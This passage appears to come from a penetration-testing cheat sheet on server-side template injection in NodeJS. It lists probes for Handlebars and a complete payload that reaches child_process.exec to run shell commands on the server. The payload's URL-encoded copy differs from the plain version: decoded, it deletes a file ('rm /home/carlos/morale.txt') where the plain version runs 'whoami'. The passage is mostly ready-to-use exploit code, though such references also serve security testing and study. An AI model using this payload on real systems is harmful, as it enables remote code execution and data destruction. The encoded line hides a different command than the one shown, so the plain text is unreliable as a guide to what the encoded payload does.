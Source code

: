 ### Jade \(NodeJS\)

#### More information

* In Jade section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)

### Handlebars \(NodeJS\)

* {{7\*7}} = Error
* ${7\*7} = ${7\*7}
* {{foobar}} Nothing

```text
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

URLencoded:
wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```
